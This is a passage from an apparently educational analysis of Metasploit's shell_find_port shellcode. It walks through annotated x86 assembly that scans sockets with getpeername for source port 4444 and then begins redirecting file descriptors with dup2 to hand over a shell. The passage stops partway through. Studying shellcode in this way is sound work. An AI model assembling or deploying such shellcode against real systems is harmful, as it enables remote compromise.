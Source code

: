 ![shell_find_port_shellcode](/images/shell_find_port_shellcode.png)

As we can infer from the graphical presentation, there is 1 main Syscall used when using the shell_find_port Shellcode.

- [ ] get_peer_name

Analyzing the code within the corresponding lines:

```c
	xor ebx,ebx     	 ; zeroing out EBX = 0
	push ebx     		 ; pushing 0 to the stack
	mov edi,esp     	 ; storing the current stack pointer to EDI
	push byte +0x10      	 ; push the address length to the stack
	push esp     		 ; push the pointer to the address length on the stack
	push edi     		 ; push pointer to the stack
	push ebx     		 ; push sockfd to start to search
	mov ecx,esp  	  	 ; move the current stack pointer to the ECX register
	mov bl,0x7     		 ; load the 0x7 SYS_GETPEERNAME value in BL (INIT the corrensponding SYSCALL)
	
loop_label:     

	inc dword [ecx]     	 ; increment file descriptor used in the loop to go to the "next" socket connection  
	push byte +0x66    	 ; push 0x66 (socketcall number) on the stack
	pop eax        		 ; pop 0x66 in EAX (socketcall systemcall)
	int 0x80      		 ; execute socketcall systemcall
	cmp word [edi+0x2],0x5C11 		 ; compare the socket source port with "4444" little endian value
	jnz 0xe        		 ; if the value does not match we go back to loop_label
	; if the there is a match
	
dup_loop_label:      
	pop ebx        		 ; pop sockfd into the EBX register
	push byte +0x2      	 ; push 2 on the stack (that will be used to perform 3 iterations in dup2 2,1,0)
```